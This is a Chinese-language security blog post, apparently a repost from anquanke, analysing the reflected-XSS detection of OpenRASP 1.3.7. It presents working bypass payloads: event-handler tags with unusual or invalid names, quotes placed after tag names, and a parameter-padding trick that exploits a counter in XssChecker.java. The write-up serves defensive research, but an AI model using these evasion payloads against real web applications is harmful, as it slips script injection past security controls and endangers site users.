 > 原文链接: https://www.anquanke.com//post/id/247612 


# OpenRASP xss算法的几种绕过方法


                                阅读量   
                                **66447**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                    



[![](https://p3.ssl.qhimg.com/t012b1bfb13be0028d0.png)](https://p3.ssl.qhimg.com/t012b1bfb13be0028d0.png)



openrasp默认只能检测反射型XSS，存储型XSS仅IAST商业版支持。对于反射型xss，openrasp也只能检测可控输出点在html标签外的情况，本文的绕过方法是针对这种情况。如果可控输出点在html标签内，如`&lt;input type="text" value="$input"&gt;`或`&lt;script&gt;...&lt;/script&gt;` 内部，openrasp几乎检测不到。



## 测试环境

windows / tomcat / jdk1.8 / openrasp 1.3.7-beta

测试环境部署参见[https://www.anquanke.com/post/id/241107](https://www.anquanke.com/post/id/241107)，或者官网文档。

在official.js中xss_userinput算法默认配置为ignore，修改为block来开启拦截。此时点击官方测试用例中下面链接，即可触发openrasp拦截。

[![](https://p3.ssl.qhimg.com/t01356f49ca51bf9ffe.png)](https://p3.ssl.qhimg.com/t01356f49ca51bf9ffe.png)

[![](https://p5.ssl.qhimg.com/t01940339fb313fdf9b.png)](https://p5.ssl.qhimg.com/t01940339fb313fdf9b.png)



## openrasp xss算法

openrasp xss算法有2种。算法1是针对PHP环境，此处不考虑。算法2是用户输入匹配算法，根据注释说明，算法原理是”当用户输入长度超过15，匹配上标签正则，且出现在响应里，直接拦截”。

[![](https://p0.ssl.qhimg.com/t0136744832f3ec0696.png)](https://p0.ssl.qhimg.com/t0136744832f3ec0696.png)

标签正则含义使用regexper网站解析如下

[![](https://p0.ssl.qhimg.com/t01af305b14a63132a6.png)](https://p0.ssl.qhimg.com/t01af305b14a63132a6.png)

标签正则从整体上来说匹配两种情况，一是请求参数值中有子字符串以`&lt;!` 开头的；二是请求参数值中有子字符串以`&lt;` 开头的。对于第二种情况，标签正则会匹配`&lt;` 字符后接1到12个大小写字母，再后接`/` 或`&gt;` 或`0x00 - 0x20` 字符的字符串。所以下面这些常见的xss测试payload都会拦截。

```
&lt;script&gt;alert(1)&lt;/script&gt;         // "&lt;script&gt;"部分匹配标签正则
&lt;img src=1 onerror=alert()&gt;       // "&lt;img "部分匹配正则，空格符对应正则中0x20
&lt;svg/onload=alert()&gt;              //  "&lt;svg/"部分匹配正则

```

`&lt;img src=1 onerror=alert()&gt;`触发拦截

[![](https://p4.ssl.qhimg.com/t014936125b67fb01b8.png)](https://p4.ssl.qhimg.com/t014936125b67fb01b8.png)



## 标签正则绕过

整理网上的一些xss 绕过payload，发现下面这些可以顺利绕过标签正则

```
&lt;d3v/onmouseleave=[1].some(confirm)&gt;click
&lt;d3/onmouseenter=[2].find(confirm)&gt;z
&lt;d3"&lt;"/onclick="1&gt;[confirm``]"&lt;"&gt;z
&lt;w="/x="y&gt;"/ondblclick=`&lt;`[confir\u006d``]&gt;z
```

浏览器直接输入上面那些xss payload会报400响应错误。对payload进行url编码所有字符。

[![](https://p2.ssl.qhimg.com/t018840de1306ca138e.png)](https://p2.ssl.qhimg.com/t018840de1306ca138e.png)

burpsuite repeater中右键”copy url”，复制url到浏览器中访问，点击即可触发弹框。

[![](https://p4.ssl.qhimg.com/t011fbad0a21551c801.png)](https://p4.ssl.qhimg.com/t011fbad0a21551c801.png)

### <a class="reference-link" name="%E6%A0%87%E7%AD%BE%E5%90%8E%E6%8E%A5%E5%8D%95%E5%8F%8C%E5%BC%95%E5%8F%B7"></a>标签后接单双引号

收集过程中还发现下面这两种xss payload也可以绕过。

```
&lt;a"/onclick=(confirm)()&gt;click 
&lt;a'/onclick=(confirm)()&gt;click
```

简单测了下其他标签后接单引号或双引号进行绕过，好像蛮多都行的。

```
&lt;button onclick=alert()&gt;12&lt;/button&gt;    // 拦截
&lt;button' onclick=alert()&gt;12&lt;/button&gt;   // 点击弹框
&lt;button" onclick=alert()&gt;12&lt;/button&gt;   // 点击弹框
&lt;div onclick=alert()&gt;12&lt;/div&gt;          // 拦截
&lt;div' onclick=alert()&gt;12&lt;/div&gt;         // 点击弹框
&lt;div" onclick=alert()&gt;12&lt;/div&gt;         // 点击弹框
```

例如，使用`123&lt;img' src=1 onclick=alert()&gt;123` ，url编码后，点击也能弹框。

[![](https://p1.ssl.qhimg.com/t01a647ed530b4d24f9.png)](https://p1.ssl.qhimg.com/t01a647ed530b4d24f9.png)

### <a class="reference-link" name="%E6%9E%84%E9%80%A0%E6%97%A0%E6%95%88%E6%A0%87%E7%AD%BE"></a>构造无效标签

这种也可以用于绕过openrasp。看到这种绕过方式，感觉前面的都不香了。

[![](https://p3.ssl.qhimg.com/t0164f0fc49f94ded5e.png)](https://p3.ssl.qhimg.com/t0164f0fc49f94ded5e.png)

只要构造如下payload即可

```
&lt;abc1 onclick=confirm()&gt;click here   // 标签名是字母+数字
```

验证如下

[![](https://p5.ssl.qhimg.com/t0114f6e8a35ad706fc.png)](https://p5.ssl.qhimg.com/t0114f6e8a35ad706fc.png)

或者

```
&lt;abcdefabcdefa onclick=confirm()&gt;click here   // 标签名称长度大于12
```

[![](https://p4.ssl.qhimg.com/t019a8c1820a9f4a76d.png)](https://p4.ssl.qhimg.com/t019a8c1820a9f4a76d.png)



## 程序逻辑绕过

还有一种绕过方法，是从程序检测逻辑上进行绕过。

openrasp xss具体检测代码实现在这个文件中`agent/java/engine/src/main/java/com/baidu/openrasp/plugin/checker/local/XssChecker.java`。下面的一段代码是对”当用户输入长度超过15，匹配上标签正则，且出现在响应里，直接拦截”的具体实现。

[![](https://p1.ssl.qhimg.com/t014e85bbfecb259241.png)](https://p1.ssl.qhimg.com/t014e85bbfecb259241.png)

但代码中多了一处逻辑。如果请求会传递多个参数，当某个参数值长度大于15，且匹配之前的标签正则`&lt;![\-\[A-Za-z]|&lt;([A-Za-z]`{`1,12`}`)[\/\x00-\x20&gt;]` ，如果对应参数值没有在响应中出现时，变量count值会加1。当count值大于10时，openrasp会直接放行。控制程序运行到上面图片中第二个方框中即可产生绕过。

### <a class="reference-link" name="%E7%BB%95%E8%BF%87%E6%BC%94%E7%A4%BA"></a>绕过演示

此处为了查看payload内容方便，使用了post请求。如果转换成get请求，并对参数值url编码，效果一样。

原始请求会触发拦截

[![](https://p0.ssl.qhimg.com/t0159aca56387091f9d.png)](https://p0.ssl.qhimg.com/t0159aca56387091f9d.png)

绕过payload。在input参数前面添加多个input[n]的参数，且参数值为其他xss payload。

[![](https://p2.ssl.qhimg.com/t01f0d25049eabe8618.png)](https://p2.ssl.qhimg.com/t01f0d25049eabe8618.png)

转换成get请求，并对payload进行编码。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01f387d753c363ba30.png)

### <a class="reference-link" name="%E7%BB%95%E8%BF%87payload%E5%88%86%E6%9E%90"></a>绕过payload分析

构造的绕过payload有几点要求。一是，虚构的请求参数理论上至少要有11个，如前面input0到input11请求参数。如果没成功，最好在增加几个请求参数。二是，虚构的请求参数名取值有些要求。三是，虚构的请求参数值不能与真实请求参数值相同。

因为这样的话，input0到input11这些请求参数在`parameterMap` 中会排在input参数前面，见下图。

[![](https://p4.ssl.qhimg.com/t01a7ace01a2b6f2703.png)](https://p4.ssl.qhimg.com/t01a7ace01a2b6f2703.png)

这样input0到input11这些参数就会优先input请求参数被openrasp检测逻辑处理，从而击中`count &gt; exceedLengthCount` 的条件进行绕过。



## 参考资料

[https://github.com/s0md3v/AwesomeXSS#awesome-tags—event-handlers](https://github.com/s0md3v/AwesomeXSS#awesome-tags--event-handlers)

[https://www.anquanke.com/post/id/173701](https://www.anquanke.com/post/id/173701)

[https://www.yuque.com/pmiaowu/web_security_1/scwgqm#JFw3a](https://www.yuque.com/pmiaowu/web_security_1/scwgqm#JFw3a)
